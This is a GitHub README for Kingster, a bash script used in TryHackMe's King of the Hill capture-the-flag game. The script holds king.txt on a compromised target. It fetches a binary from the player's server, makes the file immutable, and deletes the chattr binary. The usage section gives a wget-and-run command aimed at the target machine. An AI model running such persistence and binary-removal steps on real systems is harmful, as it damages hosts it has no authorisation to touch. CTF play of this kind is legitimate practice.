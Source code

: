 # Kingster - Protect King.txt in THM's KOTH
![Banner](images/usage.png)

Kingster is a bash script designed to protect the king.txt file in the King of the Hill (KOTH) challenge on TryHackMe.
It grants the player the "King" status by modifying file attributes and setting protections for king.txt.

### WARNING!!!
This script is meant **only for KOTH purposes**, and misuse of it may harm your system.
The script deletes the `chattr` binary, making it useless. Always conduct your research in a controlled environment.

## How the Script Works:

**Downloading Dependencies**: The script downloads the `changeattr` binary and ensures it has execution permissions.
**Protecting king.txt**: It then resets the attributes of the `king.txt` file, sets a new owner for the file, and applies the necessary permissions to protect the file (making it immutable).

### Usage:

![Usage](images/banner.png)

**Download the Script**:
On your target machine, use the following commands to download and execute the script:

```bash
wget http://<your_server_ip>/kingster.sh
chmod +x kingster.sh
bash kingster.sh <nickname> <vpn_ip>
```

**Parameters**:
- `<nickname>`: The nickname of the player who will become the King.
- `<vpn_ip>`: The IP address of the server hosting the `changeattr` binary.

Example:

```bash
root@target:~# bash kingster.sh Player 10.10.0.1
```

This will set **Player** as the King and protect the king.txt file.

---

### Sample Output of the Script:

When you run the script, you will see a colorful and interactive output like the following:

```
[+] Downloading Dependencies.
[+] Resetting attributes of /root/king.txt and removing it.
[+] Setting Player as King.
[+] Setting attributes for /root/king.txt (protecting king.txt).
```

If the process is successful, the following success message will be displayed:

```
[+] Congratulations Player, You are the new King of the game!
```

---

## Author:
**0xB3C001**
Email: [b3c001@proton.me](mailto:b3c001@proton.me)

## License:
This script is released under the MIT License.
![](LICENSE)

## More Information:
For more details, visit the GitHub repository:
[https://github.com/b3c001/Kingster](https://github.com/b3c001/Kingster)

